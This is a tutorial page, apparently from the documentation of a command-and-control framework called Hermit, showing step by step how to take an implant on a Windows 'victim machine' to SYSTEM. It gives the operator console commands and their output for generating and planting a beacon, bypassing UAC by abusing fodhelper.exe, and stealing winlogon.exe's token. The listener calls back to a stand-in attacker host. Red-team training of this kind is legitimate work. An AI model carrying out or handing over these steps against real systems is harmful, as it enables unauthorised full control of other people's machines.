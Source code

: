# Privilege Escalation with Implant Beacon

In this tutorial, we're going to  escalate privilege to **System** user with implant beacon on Windows victim machine.  

Assume that you've already done [the Tutorial: Simple Implant Beacon](./simple-implant-beacon.md).  

## 1. Start Implant & Activate Agent Mode

Because we've already learned the basic operation for an implant in the previous tutorial, we proceed as follows without detailed explanations:

```sh title="Hermit C2 Server Console"
# 1. Start Hermit server.
./hermit

# 2. Start listener.
Hermit > listener new

# 3. Generate an implant (beacon, windows/amd64/exe).
Hermit > payload gen

# 4. Transfer the implant to Windows victim machine and execute it.

# Wait until the agent callbacks...

# 5. Activate the Agent Mode.
Hermit > agent use 1
Hermit [agent-stephan] >
```

Now we can send tasks to the agent and get result callbacks.

## 2. Check the Current Privileges

Because we want to compare the privileges before/after, check the current privileges with the following command at first:

```sh title="Hermit C2 Server Console"
Hermit [agent-stephan] > whoami --priv
```

This command prints the current privileges.  
After a few seconds, see the result:

```sh title="Hermit C2 Server Console"
Hermit [agent-stephan] > task results

2024-05-13 09:53:55 : whoami priv
=================================
x SeShutdownPrivilege
o SeChangeNotifyPrivilege
x SeUndockPrivilege
x SeIncreaseWorkingSetPrivilege
x SeTimeZonePrivilege
```

In most cases we should get the result similar to the above.  
However, these privielges are not enough for highly sensitive operations, so we want more higher authority.  

Now escalate privilege.

## 3. UAC Bypass

**Hermit** has useful command (task) to bypass UAC, so we're going to use the method.  
Run the `uac` task on the C2 server console:

```sh title="Hermit C2 Server Console"
Hermit [agent-stephan] > uac
Technique: fodhelper
```

This task bypasses **UAC** by abusing `fodhelper.exe` and start another **implant** process.  
Wait until the task result will be callback, then check the result:

```sh title="Hermit C2 Server Console"
Hermit [agent-stephan] > task results

2024-05-13 09:54:05 : uac --technique fodhelper
===============================================
Success: The fodhelper.exe and another process started successfully.
```

Okay, now the implant **'escalated'** process has started.  
Exit the current agent mode and check another agent session:

```sh title="Hermit C2 Server Console"
Hermit [agent-stephan] > exit
Hermit > agents
[+]
ID  Name             IP           OS/Arch        Hostname         ListenerURL                 ImplantType  CheckIn              SessionID
1   agent-stephan    172.20.32.1  windows/amd64  VICTIM-MACHINE   https://example.evil:56692  beacon       2024-05-13 09:53:17  Imh2EvmDAJOglBMJZjBddB1Dib5UyJt2
2   agent-elizabeth  172.20.32.1  windows/amd64  VICTIM-MACHINE   https://example.evil:56692  beacon       2024-05-13 09:54:12  HHqvfKw8I5Lu4bzmH6MFknjKO7YFV3lG
```

We should see another agent listed as above. Switch to this newly agent mode:

```sh title="Hermit C2 Server Console"
Hermit > agent use 2
Hermit [agent-elizabeth] >
```

Now check the privilege:

```sh title="Hermit C2 Server Console"
Hermit [agent-elizabeth] > whoami --priv

# Wait until the result will be callback...

Hermit [agent-elizabeth] > task results

2024-05-13 09:54:41 : whoami priv
=================================
x SeIncreaseQuotaPrivilege
x SeSecurityPrivilege
x SeTakeOwnershipPrivilege
x SeLoadDriverPrivilege
x SeSystemProfilePrivilege
x SeSystemtimePrivilege
x SeProfileSingleProcessPrivilege
x SeIncreaseBasePriorityPrivilege
x SeCreatePagefilePrivilege
x SeBackupPrivilege
x SeRestorePrivilege
x SeShutdownPrivilege
x SeDebugPrivilege
x SeSystemEnvironmentPrivilege
o SeChangeNotifyPrivilege
x SeRemoteShutdownPrivilege
x SeUndockPrivilege
x SeManageVolumePrivilege
o SeImpersonatePrivilege
o SeCreateGlobalPrivilege
x SeIncreaseWorkingSetPrivilege
x SeTimeZonePrivilege
x SeCreateSymbolicLinkPrivilege
x SeDelegateSessionUserImpersonatePrivilege
```

You can see that the privileges have changed from the ones we initially checked.  
Sicne we have **SeImpersonatePrivilege**, we can abuse it for privilege escalation with Token Manipulation!

## 4. Token Stealing

We're going to steal token and impersonate logged-on as **SYSTEM** user with Token Manipulation technique.  
Firstly, enumerate running proccesses and find a process which is available to our purpose so run the following command:

```sh title="Hermit C2 Server Console"
Hermit [agent-elizabeth] > ps ls

# Wait until the result callback...

Hermit [agent-elizabeth] > task results

2024-05-13 10:13:23 : ps ls --exclude  --filter
================================================
 PID    Name
 ---    ----
 0
 4      System
 72     Registry
 532    smss.exe
 640    csrss.exe
 736    wininit.exe
 744    csrss.exe
 792    winlogon.exe
 ...
```

In the result, we can use the `winlogon.exe` process (PID: 792).  
Then try stealing using this PID:

```sh title="Hermit C2 Server Console"
# -p 792: Set the target PID 792.
# --login: Enable impersonate logged-on.
Hermit [agent-elizabeth] > token steal -p 792 --login

# Wait until the result will be callback...

Hermit [agent-elizabeth] > task results

2024-05-13 10:14:32 : token steal --pid 792 --login true
===============================================================================
Success: Token has been stolen successfully.
```

If this task is succussful, we should be now **SYSTEM** user.  
Check that with the following commands:

```sh title="Hermit C2 Server Console"
Hermit [agent-elizabeth] > whoami
Hermit [agent-elizabeth] > whoami --priv
```

We should see that we're **SYSTEM** user and have more highly privileges enabled as follow:

```sh title="Hermit C2 Server Console"
Hermit [agent-elizabeth] > task results

2024-05-13 10:14:40 : whoami
============================
VICTIM-MACHINE\SYSTEM

2024-05-13 10:14:51 : whoami priv
=================================
x SeIncreaseQuotaPrivilege
x SeSecurityPrivilege
x SeTakeOwnershipPrivilege
x SeLoadDriverPrivilege
x SeSystemProfilePrivilege
x SeSystemtimePrivilege
x SeProfileSingleProcessPrivilege
x SeIncreaseBasePriorityPrivilege
x SeCreatePagefilePrivilege
x SeBackupPrivilege
x SeRestorePrivilege
x SeShutdownPrivilege
o SeDebugPrivilege
x SeSystemEnvironmentPrivilege
o SeChangeNotifyPrivilege
x SeRemoteShutdownPrivilege
x SeUndockPrivilege
x SeManageVolumePrivilege
o SeImpersonatePrivilege
o SeCreateGlobalPrivilege
x SeIncreaseWorkingSetPrivilege
x SeTimeZonePrivilege
x SeCreateSymbolicLinkPrivilege
x SeDelegateSessionUserImpersonatePrivilege
```

Of particular note is that we own **SeDebugPrivilege**. With this privilege, we can do many things on this victim machine.
